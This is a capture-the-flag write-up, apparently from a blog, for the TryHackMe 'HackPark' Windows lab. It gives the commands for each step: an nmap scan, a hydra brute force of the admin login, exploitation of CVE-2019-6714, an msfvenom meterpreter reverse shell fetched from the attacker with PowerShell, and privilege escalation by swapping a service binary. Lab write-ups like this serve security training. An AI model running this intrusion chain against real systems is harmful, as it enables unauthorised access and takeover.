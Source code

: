 ```yaml
---
title: HackPark - Easy THM
date: 2023-12-06 11:34:29 +/-0800 
categories: [writeup, TryHackMe] 
writeup: :title
permalink: /hackpark 
tags: [Web]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
Port 80 is open
Port 3389 is open
```
### Nmap scan
```
nmap -p80,3389 -sV -sC -T4 -Pn -oA 10.10.229.26 10.10.229.26

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Exploit ⚒️
### Brute force w/ hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.26  http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=HO0GkKGhqvanRz8QFeEDnNXtpYtrhxuJvR8jiXGCdzebR5ZKml6%2FQmm8Pr9IQ09Me06CBXD36YPshvECILNgSqaMd2cVEox7T6T%2BqPD%2FwGwQA%2B6ZdW1w8y7BMfNh3Hv9lMtLWs3hYIywZDzxnv7QUGn00fE0YVbK4UBIFNBG5QO0XLreqpuIKgC4Xstaaqfpd%2Bc4osXi0a6Dcox3qv3ZxW3XXpIDIdR85zru8zWcEBL30mwv9u64TXA8JBhN%2FCMQRNkiyWJMffQH%2FS0LK%2FX5cIraHf1kk%2BVtzdP2ruYPPDdz8YCrrKsibTMiWw6xQzKR3QIQdndxtyz94k6Q1cE90hAbH00F9OnMlWEbrmILfyga42Pg&__EVENTVALIDATION=j4urGc3uiZQ8Win7%2F%2F3uenmwf3nfBWF2r5tOm%2Fu6j5vvS0Sog7zxLA0VaodEtKzXPWYhE8AHdM%2BgtMbniCLTx2hQlp7NQPM89GbqrSf6WQSF%2B4BS8QHYzJRYrLSHcA4imlN%2BrIUS%2Beeq8ftqW5oAs7J4J2PSVcA5xE3ZFp0qr2zu03dm&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

### Enumeration of WebApp

I'm able to retrieve the version of the WebApp

With that i've found the CVE-2019-6714
### Exploit of WebApp - [CVE-2019-6714]
First get access on a post
Modify it and click on "add a file"
Configure the LHOST and LPORT
Put the payload in it with the name: PostView.ascx
Open your listener to 4444
Access to the Path **"/?theme=../../App_Data/files"**
## Foothold 🐼

Now that we got an access, let's get a more stable one with msfvenom.

##### 1. Generate our payload
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.138.226 LPORT=4444 -f exe > pwn.exe
```
##### 2. Open a webserver with python 
```
python3 -m http.server 80
```
##### 3. transfer the file into victime machine
```
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```
##### 4. Open a listener with metasploit and configure it 
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.10.10

set LPORT 4444

run
```
##### 5. Now lunch the payload in the victime machine and get access to the machine!
```
.\pwn.exe
```
## Privilege escalation 👺
Find a interesting services
```
SystemScheduler
```

Let's have a look at the log file
```
cd c:\Program Files (x86)\SystemScheduler\Events
```
We found that the Message.exe is running as Administrator by this service.
Let's replace it and use it as our escalation 😼

##### 1. Rename the file
```
mv Message.exe Message.bak
```
##### 2. Transfer my file and rename into Message.exe
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

##### 3. Put my session meterpreter in background, run again the listener and wait...

**Yes, we have our session! Now let's retrieve some flag!**
```
cat C:\Users\jeff\Desktop\user.txt
cat C:\Users\Administrator\Desktop\root.txt
```

